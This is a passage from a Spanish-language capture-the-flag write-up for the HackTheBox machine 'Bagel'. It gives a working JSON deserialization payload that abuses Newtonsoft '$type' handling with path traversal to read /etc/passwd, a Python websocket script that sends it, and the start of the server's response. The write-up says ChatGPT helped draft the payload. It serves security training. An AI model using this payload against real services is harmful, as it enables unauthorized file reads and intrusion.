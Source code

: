 ```c#
        this.order_filename = this.order_filename.Replace("..", "");
        this.file.ReadFile = this.order_filename;
      }
    }
  }
```

Entonces juntando todo, deberíamos de ser capaz de crear un objeto `RemoveOrder` pasando como argumento un objeto de tipo File con el `ReadFile` setteado con el archivo que queremos leer.

Entonces, modificando el payload que anteriormente nos ha dado ChatGPT y leyendo [la documentación oficial](https://www.newtonsoft.com/json/help/html/serializetypenamehandling.htm) , el payload se queda en lo siguiente:
```json
{
    "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "../../../../../../../../etc/passwd"
    }
}
```

Entonces, con el siguiente script en python, podemos enviar el payload que queremos.
```python
import websocket

url = "ws://bagel.htb:5000/"

payload = '''
{
    "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "../../../../../../../../etc/passwd"
    }
}
'''

ws = websocket.WebSocket()
ws.connect(url)

print("[*] Enviando payload malicioso...")
ws.send(payload)

response = ws.recv()
print("[*] Respuesta del servidor:", response)

ws.close()
```

Y vemos que efectivamente, podemos leer el archivo que queramos.
```console
python3 exploit.py
[*] Enviando payload malicioso...
[*] Respuesta del servidor: {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "6:11:40",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
```